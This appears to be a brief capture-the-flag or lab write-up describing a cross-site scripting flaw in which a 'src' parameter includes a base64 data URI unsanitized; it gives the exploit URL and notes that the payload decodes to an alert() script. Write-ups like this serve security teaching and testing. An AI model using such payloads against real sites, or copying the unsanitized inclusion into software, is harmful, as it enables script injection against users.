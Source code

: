 # XSS via Data URI Inclusion

## Vulnerability
Cross-Site Scripting (XSS) through unsanitized `src` parameter

## Target
`http://{IP_ADDRESS}/?page=media&src=nsa`

## Exploit
```url
http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGgiKTs8L3NjcmlwdD4=
```

## Mechanism
- `src` parameter was directly included without sanitization
- Data URI `data:text/html;base64,...` bypassed file inclusion
- Base64 decoded to: `<script>alert("hh");</script>`
- JavaScript executed in context of vulnerable page



